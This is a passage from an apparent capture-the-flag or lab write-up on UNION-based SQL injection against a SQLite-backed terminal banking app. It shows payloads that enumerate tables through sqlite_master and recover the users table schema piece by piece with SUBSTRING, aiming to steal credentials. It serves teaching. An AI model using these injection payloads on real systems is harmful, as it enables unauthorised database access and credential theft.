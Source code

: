 In the case of our challenge, we're automatically retrieving 3 fields from the first `SELECT` statement, and that amount cannot be altered. So we need to make sure that we also have 3 fields in our `UNION`. We also can see that the length of each field is truncated so that it looks pretty on the screen, which makes `UNION`ing anything into the `id` field or the `balance` field useless. So what we'll do here is alias `NULL` as those fields so that they are just blank.

Our `UNION` clause will look like `UNION SELECT NULL as id, tbl_name, NULL as balance FROM sqlite_master`. Then we should be able to tack a list of table names onto our displayed results in the second column in the terminal. Just remember that we also need to complete our first `SELECT` statement as we have done before, so that it doesn't error. We'll just use `9` as our selection in the first statement so that we don't get any additional clutter.

```pgsql
Selection: 9 UNION SELECT NULL as id, tbl_name, NULL as balance FROM sqlite_master
   | bankinfo                                 |        
   | users                                    |        
```

Awesome! We can see that we have two tables in this database. We have already been viewing the data from `bankinfo`, but the `users` database looks really tasty! Perhaps we can steal some credentials!

In order to do that, we're going to need to enumerate the field names in this table, otherwise we won't know what to use in our `SELECT` statement. Remember that the table schema is stored in the `sql` field of `sqlite_master`. Let's craft a new statement to see what we can get. We'll use the `WHERE` clause in this one so that we're only returning info on the `users` table, and not the other table.

```pgsql
Selection: 9 UNION SELECT NULL as id, sql, NULL as balance FROM sqlite_master WHERE tbl_name='users'
   | CREATE TABLE users(id integer NOT NULL,  |        
```

Sweet, we can see that we structured our query correct. But the terminal clearly isn't printing everything contained in that record. It must be truncating the output in order to keep the screen formatted nice and pretty. So how do we get the truncated information?

The answer to this is retrieve a `SUBSTRING()` of what we already crafted. If we count the character space available in that column, we have room for 40 characters. So we'll start collecting data after character 40.

`SUBSTRING()` requires 3 arguments to work properly. The first is the field name. The second is where to start. The third is where to stop. Since the output is being truncated anyway, the third argument doesn't matter, as long as it is past where we want to stop. So in our case it would look like `SUBSTRING(sql, 40, 500)`. We simply take this statement and put it in place of where we selected the `sql` field. Nothing else from our previous statement should need to change. Let's try.

```pgsql
Selection: 9 UNION SELECT NULL as id, sql, NULL as balance FROM sqlite_master WHERE tbl_name='users'
   | CREATE TABLE users(id integer NOT NULL,  |        
   
Selection: 9 UNION SELECT NULL as id, SUBSTRING(sql, 40, 500), NULL as balance FROM sqlite_master WHERE tbl_name='users'
   |  username text NOT NULL, password text N |        
   
Selection: 9 UNION SELECT NULL as id, SUBSTRING(sql, 80, 500), NULL as balance FROM sqlite_master WHERE tbl_name='users'
   | OT NULL, ipaddress text NOT NULL, create |        

Selection: 9 UNION SELECT NULL as id, SUBSTRING(sql, 120, 500), NULL as balance FROM sqlite_master WHERE tbl_name='users'
   | d text NOT NULL, country text NOT NULL)  |
```
